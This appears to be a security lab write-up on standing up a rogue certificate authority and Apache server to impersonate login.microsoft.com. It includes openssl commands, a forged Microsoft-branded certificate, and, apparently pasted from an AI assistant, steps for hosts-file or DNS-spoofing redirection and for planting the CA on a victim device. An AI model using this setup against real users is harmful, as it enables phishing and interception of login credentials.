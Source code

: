 ## Downloading the Malicious CA
[`http://donotconnect.org/myCA.pem`](http://donotconnect.org/myCA.pem)

![image](https://github.com/user-attachments/assets/6253ec8b-9d25-42af-a867-456971925b32)

<br>

## Create CA:
### Write [`CA Config File`](ca.conf)
### Generate a new CA Key
   ```bash
   openssl genrsa -out newCA.key 2048
   ```

<br>

## Create Cert:
### Configure and Create the Cert Using `website.key`, `csr.conf`
###### Cert will be called `website.csr`

   ```bash
   openssl req -new -key website.key -out website.csr -config csr.conf
   ```

### Sign the Cert
###### Signed cert will be called (and replace) `website.csr`

   ```bash
   openssl x509 -req -in website.csr -CA myCA.pem -CAkey myCA.key -CAcreateserial -out website.crt -days 365 -sha256 -extfile csr.conf -extensions v3_req
   ```

### Verify Cert:

   ```bash
   openssl x509 -in website.crt -noout -text
   ```

### Restart `Apache2`

   ```bash
   sudo systemctl restart apache2
   ```

<br>

## Multiple SSL Cert
`/etc/apache2/sites-available/demo.donotconnect.org.conf`

<br>

## Enable Subdomain Config on `Apache2`

   ```bash
   sudo a2ensite demo.donotconnect.org.conf
   ```

<br>

<br>

## Creating a Second Malicious SSL Certificate
```bash
ubuntu@ip-172-31-5-43:~$ sudo mkdir -p /etc/apache2/ssl
ubuntu@ip-172-31-5-43:~$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
    -keyout /etc/apache2/ssl/demo-private-key.pem \
    -out /etc/apache2/ssl/demo-certificate.pem
..+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*....+......+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.....+..........+.........+......+......+..+...+.........+.+.................+.......+.....+....+......+...+...+.........+...+.....+......+.......+.....+...+.+..............+.......+...............+....................+...+.+.........+............+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
...+.+......+...+...........+.+..+...+...+....+..+.............+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*...+....+...+..+.........+..........+.........+..+.........+.+.....+....+.........+...........+.......+............+...+..+.........................+...+..+...+............+.+......+........+.+.........+...+........+.+...+...........+.....................+......+...+.+...+...+..+...+.........+.+..............+......+....+......+............+........+...+....+......+..+............+...+...+.......+..+...+............+...............+.+.....+.......+........+......+.+...+.....+.........+.+.........+..+....+.................+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Massachusetts
Locality Name (eg, city) []:Worcester
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Microsoft Corporation, Inc.
Organizational Unit Name (eg, section) []:Office of Operations Security and Authenticity
Common Name (e.g. server FQDN or YOUR name) []:login.microsoft.com
Email Address []:support@microsoft_security.com
ubuntu@ip-172-31-5-43:~$ ls -l /etc/apache2/ssl/
total 8
-rw-r--r-- 1 root root 1684 Nov 20 21:24 demo-certificate.pem
-rw------- 1 root root 1704 Nov 20 21:22 demo-private-key.pem
ubuntu@ip-172-31-5-43:~$ sudo nano /etc/apache2/sites-available/demo.donotconnect.org.conf
```

<br>

<br>

## Working on Impersonating `login.microsoft.com`

If you're impersonating a domain like `login.microsoft.com`, here's what would need to change in your setup. This is, of course, for educational and controlled ethical environments, such as penetration testing within a sandboxed or lab setup.



### **Key Changes to Impersonate `login.microsoft.com`**

1. **Modify the Common Name (CN) of the Certificate**:
   When creating the SSL certificate, the **Common Name (CN)** field must match the domain being impersonated. For `login.microsoft.com`:

   ```bash
   openssl req -new -key website.key -out website.csr
   ```

   When prompted, set the **Common Name (CN)** to:
   ```
   login.microsoft.com
   ```

   This ensures that the SSL certificate appears valid to clients attempting to connect to `login.microsoft.com`.

---

2. **Set Up DNS or Hosts File to Redirect Requests**:
   You must make the victim's device resolve `login.microsoft.com` to your EC2 instance's IP.

   - **Edit the Victim's Hosts File (Manual Override)**:
     On the victim VM:
     ```plaintext
     <Your EC2 IP> login.microsoft.com
     ```
     - **Windows**: Edit `C:\Windows\System32\drivers\etc\hosts`.
     - **Linux/macOS**: Edit `/etc/hosts`.

   - **DNS Spoofing (Advanced)**:
     Use a DNS spoofing tool like `dnsspoof` or `ettercap` in a controlled lab environment to make `login.microsoft.com` resolve to your server's IP.

---

3. **Trust the Custom CA on the Victim Device**:
   The victim device must trust your custom CA for it to accept your forged SSL certificate. You can do this by installing your CA certificate (`myCA.pem`) into the trusted root authorities.

   - **Windows**: Use `certmgr.msc` to import the CA certificate.
   - **Linux**: Copy the certificate to `/usr/local/share/ca-certificates/` and run:
     ```bash
     sudo update-ca-certificates
     ```
   - **macOS**: Use Keychain Access to import the CA certificate.

---

4. **Sign the CSR with Your Custom CA**:
   Create an SSL certificate for `login.microsoft.com` signed by your custom CA:

   ```bash
   openssl x509 -req -in website.csr -CA myCA.pem -CAkey myCA.key -CAcreateserial -out website.crt -days 365 -sha256
   ```

---

5. **Update Apache Configuration**:
   Modify your Apache configuration to serve the impersonated domain:

   - Open the configuration file for your site (e.g., `/etc/apache2/sites-available/default-ssl.conf`):
     ```bash
     sudo nano /etc/apache2/sites-available/default-ssl.conf
     ```

   - Update the following fields:
     ```apache
     ServerName login.microsoft.com
     SSLCertificateFile /path/to/website.crt
     SSLCertificateKeyFile /path/to/website.key
     ```

   - Restart Apache:
     ```bash
     sudo systemctl restart apache2
     ```

---

6. **Verify the Setup**
   On the victim's browser, navigate to `https://login.microsoft.com`. If the setup is correct:
   - The browser should trust the connection (no SSL warnings).
   - Your Apache server should handle the request.

---

### **Ethical Considerations**
Impersonating a domain like `login.microsoft.com` can only be done ethically in:
- **Controlled environments**: Labs, Capture The Flag (CTF) challenges, or penetration testing exercises where you own the systems and have permission.
- **Educational purposes**: To demonstrate security risks or vulnerabilities.

**DO NOT attempt this on a live network or against real users without explicit permission, as it is illegal and violates ethical guidelines.**

Would you like assistance scripting this setup in a controlled environment?
